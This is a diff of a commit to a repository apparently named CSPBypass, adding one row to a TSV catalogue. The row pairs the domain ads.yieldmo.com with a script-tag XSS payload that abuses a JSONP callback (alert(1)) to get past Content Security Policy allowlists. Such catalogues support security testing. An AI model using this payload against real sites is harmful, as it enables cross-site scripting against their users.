

Before and after one commit to y1024/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added ads.yieldmo.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 16: ads.yieldmo.com | <script src=https://ads.yieldmo.com/v002/t_ads/ads?callback=alert(1)-></script>
```
